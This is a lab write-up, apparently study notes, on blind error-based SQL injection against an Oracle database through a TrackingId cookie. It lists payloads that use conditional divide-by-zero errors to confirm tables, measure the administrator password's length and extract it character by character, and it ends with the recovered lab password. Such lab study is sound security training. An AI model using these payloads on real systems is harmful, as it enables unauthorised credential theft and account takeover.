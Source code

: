 # Blind SQL injection with conditional errors
- Error-based SQL injection refers to cases where you're able to use error messages to either extract or infer sensitive data from the database
- The possibilities depend largely on the configuration of the database and the types of errors you're able to trigger
- may be able to induce the application to return a specific error response based on the result of a boolean expression
- may be able to trigger error messages that output the data returned by the query. This effectively turns otherwise blind SQL injection vulnerabilities into "visible" ones
- it is often possible to induce the application to return conditional responses by triggering SQL errors conditionally,
- This involves modifying the query so that it will cause a database error if the condition is true
- but not if the condition is false
- Very often, an unhandled error thrown by the database will cause some difference in the application's response (such as an error message)
- allowing us to infer the truth of the injected condition
# Lab
- blind SQL injection vulnerability
- uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie
- the application does not respond any differently based on whether the query returns any rows
- If the SQL query causes an error, then the application returns a custom error message
- The database contains a different table called users, with columns called username and password
# Goal 
- find Administartor password
- log in as administartor
# Solving The lab
- Visit the front page of the shop
- intercept and modify the request containing the TrackingId cookie
- Modify the TrackingId cookie, appending a single quotation mark to it
```
TrackingId=xyz'
```
- we see internal server error
- Now change it to two quotation marks and the error disappears
- to confirm that the server is interpreting the injection as a SQL query ,that the error is a SQL syntax error as opposed to any other kind of error
- first need to construct a subquery using valid SQL syntax
```
TrackingId=xyz'||(SELECT '')||'
```
- query still appears to be invalid maybe we are dealing with oracle db so we need to inserf from caluse
```
TrackingId=xyz'||(SELECT '' FROM dual)||'
```
- query look valid and we got a 200 response
- now submitting an invalid query while still preserving valid SQL syntax
```
TrackingId=xyz'||(SELECT '' FROM not-a-real-table)||'
```
- we got internal server error
- can use this error response to infer key information about the database. For example, in order to verify that the users table exists
```
TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'
```
- WHERE ROWNUM = 1 condition is important here to prevent the query from returning more than one row
- we confirmed that users table exists because we got internal server error
- now exploit this behavior to test conditions
```
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```
- an error message is received
- Now change it
```
TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```
- the error disappears so we can trigger an error conditionally on the truth of a specific condition
- The CASE statement tests a condition and evaluates to one expression if the condition is true, and another expression if the condition is false.
- former expression contains a divide-by-zero, which causes an error. In this case, the two payloads test the conditions 1=1 and 1=2, and an error is received when the condition is true
- can use this behavior to test whether specific entries exist in a table
```
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
- in sql the from clause executes first so in the above query it checks if the administartor is the users db then the select statment executes and we should get an error
- now to determine how many characters are in the password of the administrator user.
```
TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
- and iterate the process till we got 20 on 21 no error displays which means the password is shorter than 21
- now to test the character at each position to determine its value. This involves a much larger number of requests, so you need to use Burp Intruder.
- In the Positions tab of Burp Intruder, change the value of the cookie to
```
TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
- SUBSTR() function to extract a single character from the password, and test it against a specific value. Our attack will cycle through each position and possible value, testing each one in turn
- now to the intruder attack like rana khalil video or like the precous lab and check for the 500 responses and we got the password
```
w4jb7vb101kkjz8h2gk5
```
